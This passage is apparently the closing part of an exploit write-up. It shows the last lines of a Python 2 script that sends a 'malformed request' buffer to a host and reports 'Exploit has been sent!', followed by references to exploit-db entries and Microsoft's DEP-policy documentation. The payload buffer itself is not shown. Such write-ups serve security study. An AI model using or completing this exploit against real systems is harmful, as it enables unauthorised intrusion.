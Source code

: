 ```python
    print "[!] " + host + " didn't respond\n"
    sys.exit(0)
    
print "[*] Sending malformed request..."
s.send(buf)

print "[!] Exploit has been sent!\n"
s.close()
```

# References

### c1
https://www.exploit-db.com/exploits/30032

### c2
https://www.exploit-db.com/exploits/24944

### c3
https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setprocessdeppolicy

